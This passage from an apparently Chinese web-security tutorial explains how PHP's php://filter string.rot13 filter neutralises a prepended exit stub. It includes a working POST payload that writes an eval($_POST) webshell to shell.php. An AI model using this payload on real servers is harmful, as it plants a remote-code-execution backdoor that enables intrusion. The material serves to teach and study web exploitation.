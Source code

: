 从服务上可以看到已经生成shell.php，同时`&lt;?php exit; ?&gt;`这部分已经被`string.strip_tags`去除掉。

在字符串过滤器中除了使用`string.strip_tags`Bypass外还可以使用`string.rot13`进行Bypass利用，下面通过分析了解其利用手法。

<a class="reference-link" name="string.rot13"></a>**string.rot13**

在上面的php://filter讲解中，我们知道string.rot13（自 PHP 4.3.0 起）使用此过滤器等同于用 str_rot13()函数处理所有的流数据。
- str_rot13()
```
str_rot13() 函数对字符串执行 ROT13 编码。

ROT13 编码是把每一个字母在字母表中向前移动 13 个字母得到。数字和非字母字符保持不变。

编码和解码都是由相同的函数完成的。如果您把一个已编码的字符串作为参数，那么将返回原始字符串。
```
- 分析绕过
分析利用php://filter中`string.rot13`过滤器去除”exit”。string.rot13的特性是编码和解码都是自身完成，利用这一特性可以去除`exit`。`&lt;?php exit; ?&gt;`在经过rot13编码后会变成`&lt;?cuc rkvg; ?&gt;`，不过这种利用手法的前提是PHP不开启`short_open_tag`

查看官方给的说明[手册](https://www.php.net/manual/zh/ini.core.php)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01efdd48635b4ae924.png)

```
short_open_tag boolean

决定是否允许使用 PHP 代码开始标志的缩写形式（&lt;? ?&gt;）。如果要和 XML 结合使用 PHP，可以禁用此选项以便于嵌入使用 &lt;?xml ?&gt;。否则还可以通过 PHP 来输出，例如：&lt;?php echo '&lt;?xml version="1.0"'; ?&gt;。如果禁用了，必须使用 PHP 代码开始标志的完整形式（&lt;?php ?&gt;）。
```

虽然官方说的默认开启，但是在php.ini中默认是注释掉的，也就是说它还是默认关闭。

```
; short_open_tag
;   Default Value: On
;   Development Value: Off
;   Production Value: Off
```

[![](https://p3.ssl.qhimg.com/t011707fd788707a174.png)](https://p3.ssl.qhimg.com/t011707fd788707a174.png)

PS：有一点奇怪的是，Linux下查看是正常的，但是在windows下同样的配置查看显示的是开启的，难道是phpstudy的锅？还是说是不同系统的问题？有了解的师傅可以告诉一下。
- payload
```
POST
txt=&lt;?cuc @riny($_CBFG[Dsgz])?&gt;&amp;filename=php://filter/write=string.rot13/resource=shell.php

&lt;?php exit; ?&gt;      &lt;?cuc rkvg; ?&gt;

&lt;?php @eval($_POST[Qftm])?&gt;   &lt;?cuc @riny($_CBFG[Dsgz])?&gt;

```
- 载荷效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01016d5d6290da6d53.png)
